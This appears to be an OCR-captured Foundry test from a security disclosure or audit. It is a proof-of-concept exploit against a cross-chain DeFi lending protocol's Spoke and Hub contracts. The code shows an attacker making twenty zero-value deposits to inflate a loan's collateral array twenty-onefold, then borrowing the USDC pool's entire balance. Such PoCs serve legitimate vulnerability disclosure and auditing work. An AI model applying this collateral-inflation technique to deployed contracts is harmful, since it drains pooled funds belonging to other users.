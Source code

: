 ```solidity
        ISpoke.MessageParams memory params = ISpoke.MessageParams({ 
            adapterId: 1,
            returnAdapterId: 1,
            receiverValue: 0,
            gasLimit: 0,
            returnGasLimit: 0
        });
        
        // hacker creates account
        vm.startPrank(hacker);
        ISpoke(SPOKE_COMMON).createAccount(params, accountId, bytes32(0));
        
        // hacker creates loan
        ISpoke(SPOKE_COMMON).createLoan(params, accountId, loanId, loanTypeId, bytes32(0));

        // pool balance before exploit
        uint256 poolBalBefore = IERC20(USDC).balanceOf(HUB_USDC_POOL);

        // --- hacker performs null deposits to artificially expand their positions array and inflate deposit amount -- // 
        IERC20(USDC).approve(SPOKE_CIRCLE_TOKEN, hackerBalBefore);
        
        for (uint256 i; i < 20; i++) { // articifially extend their collateral positions array with 20 null deposits
            ISpoke(SPOKE_CIRCLE_TOKEN).deposit(params, accountId, loanId, 0);
        }
        
        ISpoke(SPOKE_CIRCLE_TOKEN).deposit(params, accountId, loanId, hackerBalBefore); // deposit initial balance

        // hacker's collateral is inflated
        {
            ILoanManager.UserLoanCollateral[] memory collaterals;
            uint256 totalCollateralAmount;
            address loanManager = IHUB(HUB).loanManager();

            (, , , , collaterals, ) = ILoanManager(loanManager).getUserLoan(loanId);
            
            for (uint256 i; i < collaterals.length; i++) {
                ILoanManager.UserLoanCollateral memory collateral = collaterals[i];
                totalCollateralAmount += collateral.balance;
            }

            assertEq(totalCollateralAmount, collaterals[0].balance * 21); // total collateral amount is valued 21 times more than their actual collateral deposit
        }

        // --- hacker borrows all tokens from the pool --- // 
        uint8 poolId = IHubPool(HUB_USDC_POOL).getPoolId();
        uint16 chainId =  1;
        ISpoke(SPOKE_COMMON).borrow(params, accountId, loanId, poolId, chainId, IERC20(USDC).balanceOf(HUB_USDC_POOL), uint256(0));
        vm.stopPrank();

        // pool balance after exploit
        uint256 poolBalAfter = IERC20(USDC).balanceOf(HUB_USDC_POOL);

        // hacker balance after exploit
        uint256 hackerBalAfter = IERC20(USDC).balanceOf(hacker);

        console.log("Hacker's balance before exploit: %s", hackerBalBefore);
        console.log("Pool's balance before exploit: %s", poolBalBefore);
        console.log("---");
```